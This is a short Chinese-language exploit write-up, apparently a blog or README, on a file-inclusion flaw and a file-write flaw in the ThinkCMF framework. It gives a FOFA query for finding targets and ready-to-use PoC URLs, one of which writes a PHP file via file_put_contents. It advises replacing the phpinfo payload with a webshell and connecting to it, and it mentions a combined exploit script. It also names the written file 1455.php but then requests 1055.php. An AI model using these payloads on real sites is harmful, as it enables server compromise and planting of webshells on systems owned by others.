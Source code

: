 # FOFA语法：app="thinkCMF"



# thinkCMF文件包含漏洞

## 一、简介

thinkCMF它是一个开源的，支持[swoole](https://so.csdn.net/so/search?q=swoole&spm=1001.2101.3001.7020)的开源内容管理框架，让web开发更快，节约时间，这个框架的话是基于thinkphp的二次开发框架，所以说在我们国内还是有大部分的网站使用到这样的一个框架的。

## 二、漏洞利用

https://xxxx/index.php?a=display&templateFile=README.md

然后我们去到浏览器界面输入README.md回车，就可以发现我们能够成功的包含出这样的一个代码。

![image-20220718140532111](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/image-20220718140532111.png)

证明该文件包含漏洞有效



# thinkCMF文件写入漏洞

## 一、漏洞利用

[https://xx/index.php?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('1455.php','<?php phpinfo();?>')</php>]()

poc为`?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('1455.php','<?php phpinfo();?>')</php>`

再请求1055.php之后即可看到phpinfo界面

利用时可将<?php  phpinfo();?>替换为webshell，写入成功后连接。

![image-20220718142724470](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/image-20220718142724470.png)



## 我将这两个漏洞结合，编写了综合利用脚本，见**ThinkCMF.py**